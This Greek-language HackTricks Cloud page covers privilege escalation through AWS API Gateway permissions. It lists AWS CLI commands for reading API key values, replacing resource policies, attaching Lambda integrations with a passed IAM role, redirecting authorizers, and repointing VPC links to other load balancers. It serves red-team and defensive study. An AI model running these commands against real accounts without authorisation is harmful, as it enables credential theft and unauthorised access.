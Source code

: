 # AWS - Apigateway Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Με αυτή την άδεια μπορείτε να δημιουργήσετε API keys των APIs που έχουν ρυθμιστεί (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να κάνετε privesc με αυτή την τεχνική αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτή την άδεια μπορείτε να αποκτήσετε τα παραγόμενα API keys των APIs που είναι ρυθμισμένα (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να αποκτήσετε δικαιώματα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατόν να τροποποιήσετε την πολιτική πόρου ενός API για να αποκτήσετε πρόσβαση να το καλέσετε και να εκμεταλλευτείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η κλήση μιας ευάλωτης lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Συνήθως, δεν θα μπορείτε να κάνετε privesc άμεσα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:PutIntegration`, `apigateway:CreateDeployment`, και `iam:PassRole` μπορεί **να προσθέσει μια νέα ολοκλήρωση σε μια υπάρχουσα API Gateway REST API με μια Lambda λειτουργία που έχει συνημμένο έναν IAM ρόλο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη Lambda λειτουργία για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον IAM ρόλο**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της λειτουργίας Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα εξουσιοδοτητή API Gateway** για να παρακάμψει ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί **να τροποποιήσει έναν υπάρχοντα VPC Link ώστε να δείχνει σε έναν διαφορετικό Network Load Balancer, πιθανώς ανακατευθύνοντας ιδιωτική κίνηση API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους API, παρεμβολή ή διακοπή της κυκλοφορίας API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
